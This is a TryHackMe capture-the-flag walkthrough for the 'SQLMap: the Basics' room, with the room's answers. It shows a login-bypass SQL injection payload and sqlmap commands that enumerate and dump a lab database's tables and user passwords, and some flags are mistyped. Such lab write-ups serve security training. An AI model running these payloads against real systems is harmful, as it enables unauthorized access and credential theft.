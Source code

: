 # SQLMap: the Basics Tryhackme Walkthrough 

Room URL: https://tryhackme.com/room/sqlmapthebasics


---
## Task 1: Introduction

Let’s talk about one of the sneakiest tricks in the hacker’s toolkit: **SQL Injection**! 

Imagine a website as a polite waiter taking orders from users and delivering them to a database "kitchen" in the back. When you search for something or log in, you’re basically telling the waiter, “Hey, go grab this info from the kitchen.” And the waiter (website) sends your request to the database in SQL, the language it understands.

Now, here’s where things get spicy: SQL Injection is like whispering extra instructions to the waiter to mess with the kitchen. Instead of just ordering a burger, you slyly add, “And also sneak me the manager’s password list.” The unassuming waiter takes it back to the kitchen without question, leading to all sorts of mayhem!

But how is this even possible? Databases work with a system that uses SQL, like MySQL or PostgreSQL, to manage all that data. When websites don’t secure their database connections, attackers can input special SQL commands to trick the website into coughing up sensitive info. This is why SQL injection remains one of the top vulnerabilities in cybersecurity.

So, buckle up, because in this session, you’ll dive deep into SQL Injection basics, learn how it’s done, and even try it out yourself in a hands-on challenge! Who knew hacking could be this educational?

**Question: Which language builds the interaction between a website and its database?**

**Answer:** sql

---

## Task 2: SQL Injection Vulnerability

Imagine you’re logging into a website, trying to get through a login page with your trusty username "John" and secret password "Un@detectable444." Typically, the website sends a query to the database, which looks a bit like this:

```sql
SELECT * FROM users WHERE username = 'John' AND password = 'Un@detectable444';
```

The database checks if you exist and whether that password matches. If yes, you’re in! But hackers have a trick up their sleeve called **SQL Injection** that lets them twist this query into something that works for them.

Let’s say this login page is sloppy with security and doesn’t clean up user input properly. An attacker could type something like:

**Username:** John  
**Password:** abc' OR 1=1;-- -

Now the query becomes:

```sql
SELECT * FROM users WHERE username = 'John' AND password = 'abc' OR 1=1;-- -';
```

The password part now reads:

- Password = 'abc' (no match)
- OR 1=1 (which is always true!)

So the database just shrugs and lets them in. The `--` tells the database to ignore the rest, bypassing the real password check.

**Lesson Learned:** Clean up your input fields, or you might just hand out the keys to the kingdom, courtesy of SQL Injection!

**Question: Which boolean operator checks if at least one side of the operator is true for the condition to be true?**

**Answer:** or

**Question: Is 1=1 in an SQL query always true? (YEA/NAY)**

**Answer:** Yea

---

## Task 3: Automated SQL Injection Tool

Feeling like hacking databases is too much typing? Enter **SQLMap**, the database burglar’s best friend.

Forget trying to break in manually — SQLMap does the hard work for you. It’s like a tour guide for database heists, handling everything from picking the lock to finding the treasure.

**SQLMap** is a command-line tool that turns you into a database wizard, as long as you have permission (seriously). Start by launching it in your Linux terminal, and if you’re feeling overwhelmed, try `--wizard` mode. Think of it as SQLMap holding your hand.

Want to test a URL for weakness? Just feed it a target URL, like:

```
sqlmap -u http://sqlmaptesting.thm/search?cat=1
```

SQLMap will dig in. If it finds a weak point, it’ll reveal the details: error-based, time-based, UNION query, etc.

Once you’ve confirmed a vulnerable URL:

- Use `--dbs` to list the databases
- Use `-D` to pick one
- Use `--tables` to browse inside
- Use `--dump` to get all the records

In a few commands, you’re a digital Indiana Jones uncovering the secrets of SQL!

**Question: Which flag in the SQLMap tool is used to extract all the databases available?**

**Answer:** --dbs

**Question: What would be the full command of SQLMap for extracting all tables from the “members” database?**  
**(Vulnerable URL: http://sqlmaptesting.thm/search/cat=1)**

**Answer:**
```
sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D members --tables
```

---
# TASK 4: Practical Exercise

### Extract the Full GET Request URL:
To view GET parameters, right-click on the page and select “Inspect.”

Go to the Network tab, enter dummy credentials (e.g., email=test and password=test), and hit login.

Locate the GET request; it will look like this:

`http://MACHINE_IP/ai/includes/user_login?email=test&password=test`

Copy this URL, as it includes the GET parameters.

### SQLMap Command Setup:
In the terminal, use the SQLMap tool with this command (substitute MACHINE_IP with the IP address displayed in your AttackBox):

`sqlmap -u 'http://MACHINE_IP/ai/includes/user_login?email=test&password=test' - level=5`

Wrapping the URL in single quotes (‘ ‘) avoids issues with special characters.

### Answering SQLMap Prompts:
When SQLMap asks questions, respond as follows:

- Skip test payloads for other DBMSes: Enter `y`.
- Include all MySQL-specific tests: Enter `y`.
- Try random integer values for ‘–union-char’: Enter `y`.
- Keep testing other parameters if email is vulnerable: Enter `n`.

### SQLMap Results:
After running, SQLMap should identify SQL injection vulnerabilities in the email parameter.

**Question 1: How many databases are available in this web application?**

`sqlmap -u “http://<target-ip>/ai/includes/user_login?email=test&password=test” --dbs -level=5`

**Answer:** 6

**Question 2 : What is the name of the table available in the “ai” database?**

`sqlmap -u “http://<target-ip>/ai/includes/user_login?email=test&password=test” -D ai --tables`

**Answer:** Users

**Question 3 : What is the password of the email test@chatai.com?**

from the ai database dump the Users table

`sqlmap -u "http://<target-ip>/ai/includes/user_login?email=test&password=test" -D ai -T user --dump -level=5`

![image](https://github.com/user-attachments/assets/ab97d5ea-0c98-4ef1-b9af-2e8e53040d85)

**Answer:** 12345678
